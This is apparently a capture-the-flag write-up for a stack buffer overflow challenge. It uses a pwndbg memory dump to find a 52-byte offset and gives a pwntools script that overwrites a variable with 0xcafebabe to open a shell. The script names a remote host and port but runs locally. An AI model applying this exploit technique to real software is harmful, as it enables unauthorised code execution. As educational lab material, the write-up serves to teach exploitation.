 Lets view our stack values in memory,

```c
pwndbg> x/50wx $esp
0xffffd790:	0xffffd7ac	0x00000534	0x0000009e	0xf7fa5a80
0xffffd7a0:	0x00000000	0xf7fa7000	0xf7ffc7e0	0x41414141
0xffffd7b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd7c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd7d0:	0x41414141	0x41414141	0x41414141	0x00414141
0xffffd7e0:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffd7f0:	0xf7fa7000	0xf7fa7000	0x00000000	0xf7ddaee5
0xffffd800:	0x00000001	0xffffd894	0xffffd89c	0xffffd824
0xffffd810:	0xf7fa7000	0x00000000	0xffffd878	0x00000000
0xffffd820:	0xf7ffd000	0x00000000	0xf7fa7000	0xf7fa7000
0xffffd830:	0x00000000	0x8e7f65c4	0xca9223d4	0x00000000
0xffffd840:	0x00000000	0x00000000	0x00000001	0x56555530
0xffffd850:	0x00000000	0xf7fe7b24
```

We can clearly see that,

```0xffffd7e0``` has ```0xdeadbeef```

Our buffer starts after ```0xffffd7a0```+ ```12 bytes``` = ```0xffffd7ab```

Lets find the offset of the ```0xdeadbeef``` data,

```offset=0xffffd7e0-0xffffd7ac```

Offset distance can be given by,

```c
>>> hex(0xffffd7e0-0xffffd7ac)
'0x34'
>>> print(0x34)
52
```

So ```0xdeadbeef``` comes after 52 bytes of buffer

If we can overwrite ```0xdeadbeef``` with ```0xcafebabe```, a shell will be opened

-----

Now, lets try to exploit the program locally using ```pwntools```

```c
ra@moni~/P/p/bof> cat exploit.py
#!/usr/bin/python
from pwn import *
buf=""
buf+="A"*52
buf+=p32(0xcafebabe)
host="128.61.240.205"
port=9000
#p=remote(host,port)
p=process('./bof')
p.send(buf)
p.interactive()
```
